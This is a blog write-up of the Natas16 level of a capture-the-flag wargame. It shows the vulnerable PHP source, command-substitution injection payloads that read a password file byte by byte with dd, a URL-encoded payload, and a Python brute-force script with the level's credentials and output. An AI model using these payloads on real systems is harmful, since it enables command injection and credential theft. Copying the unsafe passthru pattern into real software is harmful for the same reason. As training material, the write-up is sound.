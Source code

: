 ```yaml
---
layout: post
title:  "Natas16: Bruteforcing Remote Command Execution"
date:   2017-08-18 14:15:50 -0400
categories: master
---
```


The source code:

```
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```

Despite the tightened restraints, this level is still vulnerable to unintended command execution with the use of `$(command)`

For example, inputting the regular expression:
```
^[$(cat /etc/natas_webpass/natas17)][a-z][a-z]$
``` 
returns all three-lettered words in `dictionary.txt` that start with any letter that's contained in the natas17 password file.

For further enumeration of the password, we can issue the following regular expression with the `dd` command:
```
^[$(dd status=none bs=1 count=1 skip=0 if=/etc/natas_webpass/natas17)][a-z][a-z]$
```
The `dd` command can read bytes of a file. `bs` is block size. Since our password file is ASCII and char variables are only 1 byte in length, `bs` is set to 1. `count` is how many blocks of size `bs` we want. We're only checking one letter at a time, so `count` is set to 1 as well. `skip` is number of bytes to skip at start of file. We change this from 0 to 31 to get whatever character we want from the password file, which is 32 bytes. `skip=0` gives us the first character.

The above input will not return anything, which means that the first character of the password is a digit and not a character.

Setting `skip=1` returns a list of 3-lettered words that start with p. This means that the second character of the password is either p or P.

We can fine-tune the above to the following if-statement:
```
$(if [ $(dd status=none bs=1 count=1 skip=1 if=/etc/natas_webpass/natas17) = p ]
then echo misconstrued
else echo falsehoods
fi)
```
We'll have to URL-encode this and inject it directly into the url. Newline `\n` will get encoded at `%20`.

```
%24(if%20%5B%20%24(dd%20status%3Dnone%20bs%3D1%20count%3D1%20skip%3D1%20if%3D%2Fetc%2Fnatas_webpass%2Fnatas17)%20%3D%20p%20%5D%0Athen%20echo%20misconstrued%20%0Aelse%20echo%20falsehoods%20%0Afi)
```

Which returns `falsehoods`. Changing the lowercase p to uppercase P returns `misconstrued`, which means that the second character of the password is P.

We can now use the above to create a simple python script that will brute-force the password one character at a time:
```
import requests

password = ""
array = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

for i in range(0, 32):
	for j in range(0, len(array)):
		password += array[j]
		query = "%24(if [ %24(dd status%3Dnone bs%3D1 count%3D1 skip%3D" + str(i)
		query += " if%3D%2Fetc%2Fnatas_webpass%2Fnatas17) %3D " + array[j]
		query += " ]%0Athen %0Aecho misconstrued %0Aelse %0Aecho falsehoods %0Afi)"
		req = requests.post("http://natas16.natas.labs.overthewire.org/?needle=" + query + "&Submit=Search",
			auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
		if "misconstrued" in req.text:
			print("password: " + password)
			break
		else:
			password = password[:-1]

```

Running the script until completion will give the complete password. Not shown here for the sake of spoilers.

```
root@kali:~# python natas16.py
password: 8
password: 8P
password: 8Ps
password: 8Ps3
password: 8Ps3H
password: 8Ps3H0
password: 8Ps3H0G
password: 8Ps3H0GW
password: 8Ps3H0GWb
password: 8Ps3H0GWbn
password: 8Ps3H0GWbn5
password: 8Ps3H0GWbn5r
password: 8Ps3H0GWbn5rd
[and so on]
```
